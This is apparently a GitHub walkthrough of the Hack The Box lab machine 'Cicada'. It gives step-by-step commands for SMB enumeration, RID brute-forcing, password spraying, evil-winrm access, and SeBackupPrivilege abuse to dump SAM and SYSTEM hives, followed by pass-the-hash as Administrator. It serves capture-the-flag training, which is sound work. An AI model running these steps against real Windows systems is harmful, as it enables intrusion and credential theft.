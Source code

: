 # Hack The Box (HTB) - Cicada Walkthrough

## Overview
This guide walks through the process of connecting to a Hack The Box (HTB) machine named **Cicada**, performing enumeration, exploiting SMB shares, and ultimately gaining root access.

## Prerequisites
- OpenVPN installed
- nmap
- smbclient
- evil-winrm
- pypykatz
- netexec

## Steps

### 1. Connecting to HTB
Download and connect to the VPN:
```sh
ls
sudo openvpn <path_to_vpn_file>
```

![image](https://github.com/user-attachments/assets/aef25dc9-ed8f-4d1d-aad2-d6ec0dd95c28)



![image](https://github.com/user-attachments/assets/20d74be9-6273-4c5b-8da1-6e8196bd212c)



![image](https://github.com/user-attachments/assets/c5fc1511-7f98-4bc2-a523-ac7ba34d104d)




### 2. Initial Enumeration
Scan the target machine using **nmap**:
```sh
nmap -sV -sC -T4 -oN Cicada.txt <ip.address>
```


![image](https://github.com/user-attachments/assets/5f0ca176-e151-454c-8207-b92efd203319)



#### Flags Explanation:
- `-sV` : Service/version detection
- `-sC` : Default script scanning
- `-T4` : Aggressive scanning mode
- `-oN Cicada.txt` : Save output to a file

### 3. Add Host to `/etc/hosts`
```sh
echo "<ip.address> cicada.htb CICADA-DC.cicada.htb" | sudo tee -a /etc/hosts
```
Verify the entry:
```sh
cat /etc/hosts
```


![image](https://github.com/user-attachments/assets/17892968-1054-4196-8af8-34d2545100ec)



### 4. SMB Enumeration
List available shares:
```sh
smbclient -N -L //cicada.htb
```
If `smbclient` is not installed:
```sh
sudo apt install smbclient
```

![image](https://github.com/user-attachments/assets/20fcb8eb-9522-4f4c-aa16-b63c4b26c552)



Access the **HR** share:
```sh
smbclient -N //cicada.htb/HR
```
Download files:
```sh
smb: \> get "Notice from HR.txt"
cat 'Notice from HR.txt'
```

### 5. SMB User Enumeration
Brute-force user enumeration:
```sh
nxc smb cicada.htb -u 'anonymous' -p '' --rid-brute 3000
```
Extract usernames and save them:
```sh
nano users.txt
```

Check for valid credentials:
```sh
nxc smb cicada.htb -u users.txt -p '<password_from_notice>'
```
Confirm valid user:
```sh
nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p '<password>' --users
```



![image](https://github.com/user-attachments/assets/a1c458e1-d64c-44a9-85ab-8f37ba4fe82e)




### 6. Further SMB Access
Login with the new credentials:
```sh
smbclient //cicada.htb/DEV -U 'cicada.htb\david.orelious'
```
Download the script:
```sh
get Backup_script.ps1
cat Backup_script.ps1
```



![image](https://github.com/user-attachments/assets/a7fec2da-4200-4767-b265-8e0aeb7fc4ef)




### 7. Remote Access via Evil-WinRM
```sh
evil-winrm -i cicada.htb -u '<username>' -p '<password>'
```
Verify access:
```sh
whoami
ls
```




![image](https://github.com/user-attachments/assets/adde7b07-de4e-4713-a3ed-d9b47a903938)



### 8. Extracting Sensitive Files
Move directories:
```sh
cd ..
cd Desktop
```


![image](https://github.com/user-attachments/assets/73afa306-68c1-483b-9d9c-3dd873393a8b)



Read **user.txt**:
```sh
type .\user.txt
```

### 9. Privilege Escalation
Check privileges:
```sh
whoami /priv
```
If **SeBackupPrivilege** is enabled, exploit it:
```sh
mkdir C:\Temp
cd C:\Temp
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
```
Download registry hives:
```sh
download sam
download system
```

### 10. Cracking the Administrator Password
Check if `pypykatz` is installed:
```sh
pip show pypykatz
```
Extract password hashes:
```sh
pypykatz registry --sam sam system
```
Find the **Administrator** hash and use it for authentication:
```sh
evil-winrm -i cicada.htb -u administrator -H <hash_value>
```
Verify access:
```sh
whoami
```
Retrieve the final flag:
```sh
cd ..
cd Desktop
ls
type .\root.txt
```

## Conclusion
By following these steps, we successfully exploited SMB shares, retrieved credentials, escalated privileges, and gained full system access on **Cicada**.
